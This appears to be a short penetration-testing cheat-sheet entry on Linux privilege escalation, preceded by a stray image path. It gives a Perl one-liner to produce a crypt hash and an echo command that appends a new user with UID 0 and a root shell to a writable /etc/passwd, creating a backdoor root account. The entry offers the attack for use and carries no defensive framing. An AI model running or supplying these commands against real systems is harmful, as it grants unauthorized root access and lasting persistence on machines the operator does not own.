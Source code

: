 If passwd file is writeable to your user or world, this can be quick win.

- Generate salted hash (This is type of hash passwd accepts)
  - perl -le 'print crypt("myPassHere","addedsalt")'
- write into passwd
  - echo "User:SalTedHasHFromAbove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
